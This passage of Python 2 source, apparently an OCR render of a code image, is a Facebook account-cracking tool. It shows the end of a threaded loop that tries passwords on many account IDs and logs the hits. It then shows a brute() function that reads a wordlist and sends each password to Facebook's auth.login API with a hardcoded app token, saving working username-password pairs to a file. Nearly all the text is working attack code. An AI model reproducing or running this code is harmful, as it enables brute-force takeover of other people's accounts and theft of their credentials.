 '\n\x1b[1;92m╔[Very.GOOD] \x1b[1;92m ' + '\n║ID: ' + user + '\n║PASS: ' + pass10 + '\n╚Name: ' + \                                                                                         b['name']                                                                                         oks.append(user + pass10)                                                                                     else:                                                                                         if 'www.facebook.com' in q[                                                                                             "error_msg"]:                                                                                             print                                                                                             '\n\x1b[1;36;40m[╔sorry.CHECKPOINT] \x1b[1;97m ' + '\n║ID: ' + user + '\n║PASS: ' + pass10 + '\n╚Name: ' + \                                                                                             b['name']                                                                                             cek = open("out/CP.txt",                                                                                                        "a")                                                                                             cek.write(                                                                                                 user + "|" + pass10 + "\n")                                                                                             cek.close()                                                                                             cekpoint.append(                                                                                                 user + pass10)         except:                                                                                     pass              p = ThreadPool(30)     p.map(main, id)           print '[✓]....'     print "[+)∞(+] \033[1;32;40mVery.GOOD\033[1;36;40m/\033[1;31;40msorry.CHECKPOINT \033[1;36;40m: \033[1;32;40m"+str(len(oks))+"\033[1;36;40m/\033[1;31;40m"+str(len(cekpoint))     print '\033[1;34;40m[+] ✓∅✓✓✓✓✓ : save/cp.txt'     print """-------------------------------"""     raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")     super()  def brute():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Eeror'         os.system('rm -rf login.txt')         time.sleep(0.5)         login()     else:         os.system('clear')         print logo         print '--------------------------------------------'         try:             email = raw_input('\x1b[1;91m[∞] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail \x1b[1;97m✓✓✓--> \x1b[1;91m:\x1b[1;97m ')             passw = raw_input('\x1b[1;91m[∞] \x1b[1;92mWordlist✓&lt;?> \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')             total = open(passw, 'r')             total = total.readlines()             print '---------------------------------'             print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92m✓✓✓&lt;?> \x1b[1;91m:\x1b[1;97m ' + email             print '\x1b[1;91m[∞] \x1b[1;92mAll\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword!?'             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mplz wait \x1b[1;97m...')             sandi = open(passw, 'r')             for pw in sandi:                 try:                     pw = pw.replace('\n', '')                     sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mTry \x1b[1;97m' + pw)                     sys.stdout.flush()                     data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + email + '&amp;locale=en_US&amp;password=' + pw + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                     mpsh = json.loads(data.text)                     if 'access_token' in mpsh:                         dapat = open('Brute.txt', 'w')                         dapat.write(email + ' | ' + pw + '\n')                         dapat.close()                         print '\n\x1b[1;91m[+] \x1b[1;92meeror'                         print 52 * '\x1b[1;97m\xe2\x95\x90'                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw                         keluar()                     else:                         if 'www.facebook.com' in mpsh['error_msg']:                             ceks = open('Brutecekpoint.txt', 'w')                             ceks.write(email + ' | ' + pw + '\n')                             ceks.close()                             print '\n\x1b[1;91m[+] \x1b[1;92mEeror'                             print  "-------------------------------"                             print '\x1b[1;91m[!] \x1b[1;93msorry Checkpointa'                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw                             keluar()                 except requests.exceptions.ConnectionError:                     print '\x1b[1;91m[!]Internet'                     time.sleep(1)          except IOError:             print '\x1b[1;91m[!]File.?!!'             print """\n\x1b[1;91m[!] \x1b[1;92mEeror"""             super()  if __name__ == '__main__':     login()
